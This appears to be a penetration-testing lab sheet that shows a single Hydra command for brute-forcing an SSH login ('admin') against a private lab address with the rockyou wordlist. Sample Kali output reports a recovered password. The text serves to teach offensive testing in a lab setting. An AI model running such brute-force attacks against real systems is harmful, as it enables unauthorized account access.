

# Lab 14: Cracking the Password Using Hydra

## Commands / Code

```bash
# Brute-force SSH login using Hydra with a username and password wordlist
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10
```

## Expected Output

```text
┌──(kali㉿kali)-[~/lab14]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries
[22][ssh] host: 192.168.1.10   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
```

## Output Image


